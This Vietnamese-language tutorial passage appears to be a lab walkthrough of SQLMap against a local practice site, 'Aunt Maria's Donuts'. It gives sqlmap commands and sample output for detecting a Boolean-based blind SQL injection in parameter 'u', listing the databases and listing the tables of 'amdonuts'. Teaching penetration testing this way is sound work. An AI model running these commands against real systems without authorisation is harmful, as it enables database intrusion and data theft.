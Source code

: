 ### Ví Dụ: Tấn Công SQL Injection Dạng Boolean Blind trên **Aunt Maria's Donuts**
Để minh họa cách sử dụng SQLMap, chúng ta sẽ thực hiện tấn công SQL injection dạng Boolean-based blind trên trang web **Aunt Maria's Donuts**. Chúng ta sẽ chạy SQLMap đối với endpoint mà chúng ta nghi ngờ là có lỗ hổng SQL injection.

#### Bước 1: Kiểm Tra Lỗ Hổng SQL Injection
Giả sử chúng ta nghi ngờ rằng tham số `u` trong URL `http://localhost/api/check-username.php?u=maria` có thể bị SQL injection. Chúng ta sẽ chạy SQLMap để kiểm tra:

```bash
python .\sqlmap.py -u http://localhost/api/check-username.php?u=maria -batch
```

**Kết quả:**
SQLMap sẽ kiểm tra và xác nhận rằng tham số `u` bị lỗi SQL injection dạng Boolean-based blind. Đây là một kỹ thuật tấn công trong đó kẻ tấn công không thể thấy trực tiếp kết quả, nhưng có thể xác định được thông qua phản hồi đúng/sai của server.

#### Bước 2: Liệt Kê Các Cơ Sở Dữ Liệu
Khi đã xác định được rằng có một điểm tấn công SQLi, chúng ta có thể sử dụng SQLMap để liệt kê các cơ sở dữ liệu trong hệ thống bằng cách thêm cờ `--dbs`:

```bash
python .\sqlmap.py -u http://localhost/api/check-username.php?u=maria -batch --dbs
```

**Kết quả:**
SQLMap sẽ trả về danh sách các cơ sở dữ liệu có trên server:

```
available databases [5]:
[*] amdonuts
[*] master
[*] model
[*] msdb
[*] tempdb
```

Ở đây, cơ sở dữ liệu **amdonuts** là quan trọng nhất vì nó có thể chứa các thông tin liên quan đến ứng dụng.

#### Bước 3: Liệt Kê Các Bảng Trong Cơ Sở Dữ Liệu **amdonuts**
Chúng ta sẽ sử dụng SQLMap để liệt kê các bảng trong cơ sở dữ liệu `amdonuts`:

```bash
python .\sqlmap.py -u http://localhost/api/check-username.php?u=maria -batch -D amdonuts --tables
```

**Kết quả:**
Chúng ta thấy rằng chỉ có một bảng duy nhất trong cơ sở dữ liệu này là bảng `users`.

```
Database: amdonuts
[1 table]
+-------+
| users |
+-------+
```
